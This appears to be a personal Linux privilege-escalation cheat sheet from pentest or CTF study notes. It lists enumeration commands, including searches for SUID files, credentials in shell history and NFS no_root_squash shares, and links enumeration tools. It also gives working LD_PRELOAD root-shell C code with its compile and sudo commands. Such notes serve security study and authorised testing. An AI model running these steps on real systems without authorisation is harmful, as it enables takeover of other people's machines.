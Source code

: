 # Linux PrivEsc

## Important files

`/proc/version` = may give you information on the kernel version and additional data such as whether a compiler (e.g. GCC) is installed.

`/etc/issue` = This file usually contains some information about the OS but can easily be customized or changed

`/etc/passwd` = Shows users on the system



Cat users with home directory

```bash
cat /etc/passwd | grep home
```

## Important commands

`hostname` = get **hostname** of target

`uname -a` = Print system info + **kernel** info

`ps` = See running processes in Linux

* `ps -A` = View all running processes
* `ps axjf` = View process tree
* `ps aux` = Show processes for all users, display the user that launched the process, and show the processes that are not attached to a terminal

`env` = Show **environment** variables

* The PATH variable may have a compiler or a scripting language (e.g. Python) that could be used to run code on the target system or leveraged for privilege escalation.

`sudo -l` = List **all commands** user can run using **sudo**

`id` = provide a general overview of the **user's privilege level** and **group memberships**

`history` = History file might have some **passwords** or **usernames** inside

`netstat` = Gather information on existing connections

* `netstat -a` shows all listening ports and established connections
* `netstat -at` or `netstat -au` can also be used to list TCP or UDP protocols respectively.
* `netstat -l`: list ports in “listening” mode. These ports are open and ready to accept incoming connections. This can be used with the “t” option to list only ports that are listening using the TCP protocol&#x20;
* `netstat -s`: list network usage statistics by protocol (below) This can also be used with the `-t` or `-u` options to limit the output to a specific protocol.
* `netstat -tp`: list connections with the service name and PID information.
* `netstat -i`: Shows interface statistics.
* The `netstat` usage you will probably see most often in blog posts, write-ups, and courses is `netstat -ano` which could be broken down as follows;
  * `-a`: Display all sockets
  * `-n`: Do not resolve names
  * `-o`: Display timers

Find

* `find . -name flag1.txt`: find the file named “flag1.txt” in the current directory
* `find /home -name flag1.txt`: find the file names “flag1.txt” in the /home directory
* `find / -type d -name config`: find the directory named config under “/”
* `find / -type f -perm 0777`: find files with the 777 permissions (files readable, writable, and executable by all users)
* `find / -perm a=x`: find executable files
* `find /home -user frank`: find all files for user “frank” under “/home”
* `find / -mtime 10`: find files that were modified in the last 10 days
* `find / -atime 10`: find files that were accessed in the last 10 day
* `find / -cmin -60`: find files changed within the last hour (60 minutes)
* `find / -amin -60`: find files accesses within the last hour (60 minutes)
* `find / -size 50M`: find files with a 50 MB size

Find files permission based on permissions

* `find / -writable -type d 2>/dev/null` : Find world-writeable folders
* `find / -perm -222 -type d 2>/dev/null`: Find world-writeable folders
* `find / -perm -o w -type d 2>/dev/null`: Find world-writeable folders



* `find / -perm -o x -type d 2>/dev/null` : Find world-executable folders



Find development tools and supported languages:

* `find / -name perl*`
* `find / -name python*`
* `find / -name gcc*`



SUID

```bash
find / -perm -u=s -type f 2>/dev/null
```

## Automated Enumeration Tools

* LinPeas:&#x20;

{% embed url="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS" %}

* LinEnum:&#x20;

{% embed url="https://github.com/rebootuser/LinEnum" %}

* LES (Linux Exploit Suggester):

{% embed url="https://github.com/mzet-/linux-exploit-suggester" %}

* Linux Smart Enumeration:

{% embed url="https://github.com/diego-treitos/linux-smart-enumeration" %}

* Linux Priv Checker:

{% embed url="https://github.com/linted/linuxprivchecker" %}

## Kernel Exploits

1. Based on your findings, you can use **Google** to search for an existing exploit code.
2. Sources such as this can also be useful:

{% embed url="https://www.linuxkernelcves.com/cves" %}

3. Another alternative would be to use a script like **LES (Linux Exploit Suggester)** but remember that these tools can generate false positives (report a kernel vulnerability that does not affect the target system) or false negatives (not report any kernel vulnerabilities although the kernel is vulnerable).

## Sudo

{% embed url="https://gtfobins.github.io/" %}

### LD\_PRELOAD

The steps of this privilege escalation vector can be summarized as follows;

1. Check for LD\_PRELOAD (with the env\_keep option)
2. Write a simple C code compiled as a share object (.so extension) file
3. Run the program with sudo rights and the LD\_PRELOAD option pointing to our .so file

The C code will simply spawn a root shell and can be written as follows;

```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```

We can save this code as shell.c and compile it using gcc into a shared object file using the following parameters;

`gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We can now use this shared object file when launching any program our user can run with sudo. In our case, Apache2, find, or almost any of the programs we can run with sudo can be used.

We need to run the program by specifying the LD\_PRELOAD option, as follows;

`sudo LD_PRELOAD=/home/user/ldpreload/shell.so find`

This will result in a shell spawn with root privileges.

## SUID

`find / -type f -perm -4000 2>/dev/null`

## Capabilities

`getcap` = List enabled capabilities

`getcap -r / 2>/dev/null` = Redirect errors when using running this command as unprivileged user

## Cron Jobs

`/etc/crontab` = Cron jobs file

## Path

See Path Variable: `echo $PATH`

You can use C scripts with system() function in this privesc method

## NFS

`cat /etc/exports` = See NFS (Network File Sharing) configuration

Look out for **no\_root\_squash** option

`showmount -e [IP_ADDR]` = Enumerate mountable shares

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

As you can set SUID bit, you generate a C code and compile it. It automatically is also visible on the mounted directory on target
